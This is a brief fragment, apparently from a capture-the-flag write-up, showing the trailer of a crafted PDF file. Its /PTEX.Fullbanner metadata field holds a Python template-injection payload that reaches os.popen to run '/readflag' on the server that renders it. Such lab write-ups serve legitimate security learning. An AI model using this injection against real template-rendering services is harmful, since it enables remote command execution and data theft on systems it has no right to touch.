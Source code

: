 ```
0000002200 00000 n
0000002333 00000 n
0000002435 00000 n
0000002779 00000 n
0000002865 00000 n
trailer
<<
/Size 21
/PTEX.Fullbanner ({{self.__init__.__globals__.__builtins__.__import__('os').popen('/readflag').read()}})
/Root 20 0 R
/Info 19 0 R
/ID [ <473612F0110D3914940DD4F61756820F> <473612F0110D3914940DD4F61756820F> ]
>>
startxref
2969
%%EOF
```

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/8bc04b89-5fb2-47f6-a8e7-202bdf13b8fb)
